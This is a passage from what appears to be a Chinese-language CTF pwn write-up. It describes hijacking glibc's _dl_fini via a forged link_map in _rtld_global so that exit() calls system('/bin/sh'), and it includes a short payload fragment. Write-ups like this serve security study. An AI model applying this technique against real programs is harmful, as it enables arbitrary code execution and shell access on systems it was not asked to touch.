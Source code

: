 再通过`.`​来向写内容，`>`​来抬地址以此来循环写入

##### 解题思路：

> 控制`rdi(_rtld_global+2312)`​为`'/bin/sh\x00'`​
> 
> 控制`l->l_addr`​ + `l->l_info[DT_FINI]`​->`d_un.d_ptr`​最终指向`system`​
> 
> 控制`l->l_info[DT_FINI_ARRAY] = 0`​
> 
> 显式触发`exit`​函数调用`_dl_fini`​函数

##### 动态调试：

```plain
payload = b'@' + p32(argv0-0x10) + write(b'/bin/sh\x00') 
#argv0 = _rtld_global+2312 - mmap_base
#argv0即_rtld_global+2312与mmap_base的偏移
#设置rdi = _rtld_global+2312 = '/bin/sh\x00'
```

[![](assets/1701612101-ff0250d1cb3a39d31d8e2319323ef64e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230914100518-2757f424-52a3-1.png)
